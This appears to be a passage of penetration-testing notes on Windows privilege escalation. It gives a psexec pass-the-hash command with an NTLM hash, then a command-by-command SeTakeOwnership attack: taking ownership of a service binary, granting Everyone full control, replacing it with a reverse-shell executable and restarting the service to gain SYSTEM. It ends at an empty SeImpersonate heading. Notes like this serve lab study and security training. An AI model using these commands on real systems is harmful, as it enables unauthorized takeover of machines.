     - **python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.206.42**
    </aside>
    

## **SeTakeOwnership**

- The **SeTakeOwnership** privilege allows a user to **take ownership of any object** on the system, such as files, folders, registry keys, or services, even if they don’t have permission to access them. This can be abused to gain full control over critical system files and escalate privileges.

### Exploitation Steps:

- check if your user has this privilege.
    - `whoami /Priv`
        - Look for **SeTakeOwnershipPrivilege** in the output. If it is **Enabled**, you can proceed with privilege escalation.
- Find Services with Non-System Paths
    
    <aside>
    💡
    
    - wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\System32\"
    </aside>
    
- Find a Specific Service
    - `sc qc "VulnerableService"`
- Take Ownership of the File
    - `takeown /f "C:\Program Files\VulnerableService\service.exe"`
- Give Yourself Full Control
    - `icacls "C:\Program Files\VulnerableService\service.exe" /grant Everyone:F`
- Replace the Service Executable
    - Backup the Original File:
        - `copy "C:\Program Files\VulnerableService\service.exe" "C:\Backup\service.exe.bak"`
    - Replace the Executable with a Malicious One:
        
        <aside>
        💡
        
        - move C:\Users\Public\reverse-shell.exe "C:\Program Files\VulnerableService\service.exe"
        </aside>
        
- Restart the Service:
    - `sc stop "VulnerableService"`
    - `sc start "VulnerableService"`
- **(Summary)**
    - **Find a vulnerable service** (`wmic service get name,displayname,pathname,startmode`).
    - **Take ownership** of its executable (`takeown /f file.exe`).
    - **Grant yourself full control** (`icacls file.exe /grant Everyone:F`).
    - **Replace the executable** with a **malicious payload**.
    - **Restart the service** to execute your **malicious binary** and get **SYSTEM access**.

## **SeImpersonate / SeAssignPrimaryToken**
